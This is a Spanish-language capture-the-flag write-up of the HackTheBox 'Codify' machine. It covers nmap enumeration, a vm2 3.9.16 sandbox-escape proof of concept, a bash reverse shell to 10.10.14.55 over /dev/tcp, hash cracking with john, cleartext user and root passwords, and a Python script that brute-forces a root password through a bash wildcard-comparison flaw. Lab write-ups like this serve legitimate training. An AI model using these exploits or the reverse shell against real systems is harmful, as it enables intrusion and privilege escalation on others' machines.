



Codify es una sencilla máquina Linux que cuenta con una aplicación web que permite a los usuarios probar el código `Node.js`. La aplicación utiliza una biblioteca `vm2` vulnerable, que se aprovecha para obtener la ejecución remota de código. Al enumerar el objetivo se revela una base de datos `SQLite` que contiene un hash que, una vez descifrado, otorga acceso `SSH` al equipo. Finalmente, se puede ejecutar un script `Bash` vulnerable con privilegios elevados para revelar la contraseña del usuario `root`, lo que genera acceso privilegiado a la máquina.


# Enumeración

Iniciamos enumerando los puertos abiertos con la herramienta de `nmap`

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.239 -oG allportsScan

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

```

Luego de obtener los puertos abiertos procederemos a enumerar los servicios y versiones que se tiene corriendo en los puertos abiertos.

```c
❯ nmap -p22,80,3000 -sC -sV -vv -n -Pn 10.10.11.239 -oN serviceScan

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Los puertos que encontramos son el 22, 80 y 3000 que se ejecutan los servicios `ssh` y `http` en los dos últimos
## Sitio Web

Revisando el sitio web encontramos un sitio en el que nos explica que se tiene un editor de código para node js.


Revisando encontramos que tiene ciertas limitaciones con algunos módulos de node js



Vemos a continuación el editor de código:


# Shell - SVC

En este punto intente muchas cosas con los módulos que tenia a disposición, esto porque no lei el acerca de que hacen uso. Esto me enseño a ponerle mas atención. Vemos que hacen uso de [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) que te lleva a cierta versión  


La versión que se hace uso es `3.9.16` 


Investigando un poco sobre esta versión encontraremos que es vulnerable y podemos ejecutar comandos.

- [Sandbox Escape in vm2@3.9.16](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

En siguiente código veremos una muestra de el código que debemos ingresar para ejecutar comandos.

```c
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Corremos el código anterior y observamos que efectivamente podemos ejecutar comandos


Ahora debemos obtener una revershell y para ello yo use el siguiente comando de bash:

```c
bash -c 'exec bash -i &>/dev/tcp/10.10.14.55/443 <&1'
```

Para luego correr el código nuevamente pero con la revershell y obtendremos una shell como el usuario `svc`


# Shell - Joshua

Enumerando los directorios encontraremos una base de datos `tickets.db `


Para poder revisarlo yo me descargue a mi maquina atacante haciendo uso de python: `python3 -m http.server 8888`, con ello podrás iniciar un servidor web y descargártelo sin problemas.

Luego de descargártelo podremos acceder a la base de datos con `sqlite3` y ver las tablas que se tiene.


La tabla que me llamo la atención fue `users` y efectivamente tenia credenciales del usuario `joshua`. La credencial que encontramos esta encriptada y para obtener en texto plano haremos uso de `john the ripper`.

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_joshua
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (joshua)     
1g 0:00:01:30 DONE (2024-07-21 00:28) 0.01099g/s 15.04p/s 15.04c/s 15.04C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Luego de crackear la password obtendremos las siguientes credenciales: 

```c
joshua: spongebob1
```

Y haciendo uso de estas credenciales podremos inicar sesión como el usuario `joshua`

```c
❯ ssh joshua@10.10.11.239

```



# Shell - Root

Enumerando los permisos del usuario `joshua` podremos ver que este usuario puede ejecutar de manera privilegiada un script


El script que puede ejecutar es el siguiente:

```c
    (root) /opt/scripts/mysql-backup.sh
```

El contenido de dicho script es :

```c
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Al parecer este script hace una copia de la base de datos, pero para ello se necesita la contraseña del usario root.

Investigando un poco acerca de como poder bypassear la parte de la condicional

```c
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

Me encontré con algo interesante [Bash Pïtfalls](https://mywiki.wooledge.org/BashPitfalls#A.5B_.24foo_.3D_.22bar.22_.5D) donde encontraras varias maneras de bypasear o  burlar ciertas condicionales. En nuestro caso lo podemos realizar con `*`, vamos a ponerlo a prueba.


Observamos que funciona y para ver la credenciales haremos uso de [pspy32](https://github.com/wildkindcc/Exploitation/tree/master/00.PostExp_Linux/pspy) y asi ver los procesos que se ejecutaron o ejecutan


Vemos que se ejecuto correctamente y además podemos observar la contraseña en texto plano.

```c
root: kljh12k3jhaskjh12kjh3
```

## Brute Force

Tenemos otra opción para poder obtener la contraseña en texto plano y la verdad me gusta mas, para ello me hice una copia del script con las líneas de comparaciones de credenciales en mi maquina atacante.


```c
 ❯ cat test.sh
#!/bin/bash

DB_USER="root"
DB_PASS=$(/usr/bin/cat password)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo


if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

```c
 ❯ cat password
 password
```

Teniendo este script fue escribir un script que me ejecutara teniendo en cuenta que `$DB_PASS == $USER_PASS` si yo ingreso `p*` debería de obtener `Password confirmed!` como salida y si es otra letra `Password confirmation failed!`, pero esto no nos ayuda mucho y en lo que debemos de prestar mas atención es en el estado de ejecución.

Vemos que luego de imprimir `Password confirmation failed!` tenemos un status `1`, por lo que nos ayudaremos de esto para nuestro script.

```c
#!/usr/bin/env python3

import subprocess

wordlist = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&(),-./:;<=>?@[]^_`{|}~'

password = ""

while True:
    found = False
    for w in wordlist:
        command = f"echo '{password}{w}*' | ./test.sh"
        
        result = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        
        if "Password confirmed!" in result.stdout.decode():
            password += w 
            found = True
            print(f"\r{password}{w}", flush=True, end="")
            break
    
    if not found:
        break

print(f'\r{password}        ')
```

Luego de que nuestro script funciona en local pasamos a la maquina victima, antes cambiando el comando a ejecutar `command = f"echo '{password}{w}*' | ./test.sh"` a `command = f"echo '{password}{w}*' | sudo /opt/scripts/mysql-backup.sh"`


Observamos que obtuvimos la contraseña y podemos escalar privilegios como el usuario root



